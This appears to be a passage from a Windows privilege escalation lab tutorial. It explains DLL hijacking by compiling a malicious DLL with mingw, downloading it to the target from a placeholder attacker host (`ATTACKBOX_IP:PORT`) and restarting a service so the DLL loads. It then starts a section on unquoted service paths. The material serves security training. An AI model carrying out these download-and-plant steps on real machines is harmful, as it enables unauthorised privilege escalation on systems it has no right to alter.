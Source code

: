 Leaving aside the boilerplate parts, you can see this file will execute the `whoami` command (`cmd.exe /k whoami`) and save the output in a file called "dll.txt".

The mingw compiler can be used to generate the DLL file with the command given below: 

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

You can easily install the Mingw compiler using the apt install gcc-mingw-w64-x86-64 command.


We have seen earlier that the application we target searches for a DLL named hijackme.dll. This is what our malicious DLL should be named. 


You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling. 


Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: `wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`


![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/6dd2070eda0924f1b6d601e63301fe05.png)![img]()


We will have to stop and start the dllsvc service again using the command below:

```
sc stop dllsvc & sc start dllsvc
```

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/a5fc76aa33e941941182d36a6c83e11f.png)

# Unquoted Service Path

When a service starts in Windows, the operating system has to find and run  an executable file. For example, you will see in the terminal output  below that the "netlogon" service (responsible for authenticating users  in the domain) is, in fact, referring to the  C:\Windows\system32\lsass.exe binary. 

​            Netlogon and its binary        

```shell-session
           C:\Users\user>sc qc netlogon
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: netlogon
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\lsass.exe
        LOAD_ORDER_GROUP   : MS_WindowsRemoteValidation
        TAG                : 0
        DISPLAY_NAME       : Netlogon
        DEPENDENCIES       : LanmanWorkstation
        SERVICE_START_NAME : LocalSystem

C:\Users\user>
        
```
